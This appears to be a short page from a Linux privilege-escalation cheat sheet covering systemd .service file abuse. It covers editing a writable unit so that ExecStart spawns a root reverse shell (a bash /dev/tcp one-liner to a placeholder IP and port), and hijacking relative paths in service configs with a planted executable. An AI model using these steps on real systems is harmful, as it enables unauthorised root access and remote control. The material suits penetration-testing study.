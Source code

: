 ```yaml
---
title: .service File
parent: Method
layout: default
nav_order: 10
---
```


.service file are executed as root, but you need to be able to restart the service or reboot the PC

## .service file writable
1. You can modify the .service file to execute your file, or to initiate reverse shell, for example changing the following (can also remove WorkingDirectory line):
   `ExecStart=bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'`
   `User=root`
2. Restart the service or the PC (check `sudo -l` to see if you can `sudo /sbin/reboot`)

## Relative PATH:
1. Check the system PATH using `systemctl show-environment`, need to make sure you have write access to any one of them.
2. Check the service configuration for any relative path, for example:
   `ExecStart=faraday-server`
   `ExecStart=/bin/sh -ec 'ifup --allow=hotplug %I; ifquery --state %I'`
3. You can then create a same name executable in the PATH you can write. (previous example, faraday-server)
4. Restart the service or the PC. (check `sudo -l` to see if you can `sudo /sbin/reboot`)